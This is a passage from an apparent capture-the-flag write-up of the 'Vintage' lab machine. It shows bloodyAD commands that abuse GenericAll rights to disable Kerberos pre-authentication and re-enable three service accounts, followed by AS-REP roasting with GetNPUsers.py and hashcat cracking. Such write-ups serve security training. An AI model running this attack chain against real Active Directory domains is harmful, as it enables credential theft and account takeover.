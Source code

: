 ![Bloodhound Data - Service Managers group has Generic All Permissions on multiple SVC Accounts](/assets/img/img_vintage/Pasted%20image%2020250130164008.png)
Abusing this we can disable `Pre-Authentication` checks on these users which allows us to conduct `ASREPRoasting`:
```console
# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac svc_sql -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_sql's userAccountControl
# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac svc_ark -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ark's userAccountControl
# bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add uac svc_ldap -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to svc_ldap's userAccountControl
```
Ensuring that the `svc` accounts are enabled:
```console
# bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k remove uac SVC_SQL -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_SQL's userAccountControl
# bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k remove uac SVC_ark -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ark's userAccountControl
# bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k remove uac SVC_ldap -f ACCOUNTDISABLE
[-] ['ACCOUNTDISABLE'] property flags removed from SVC_ldap's userAccountControl
```
And then extract `TGT` which we can crack with `hashcat` using the following:
```console
# GetNPUsers.py -usersfile users.txt -request -format hashcat -dc-ip 'dc01.vintage.htb' 'vintage.htb/' -outputfile ASREProastables.txt
```
using `hashcat` we can attempt to crack them:
```console
# hashcat --hash-type 18200 --attack-mode 0 ASREProastables.txt `fzf-wordlists`
find: ‘/usr/share/wfuzz’: No such file or directory
                                                   find: ‘/usr/share/dirb’: No such file or directory
                                                                                                     hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
```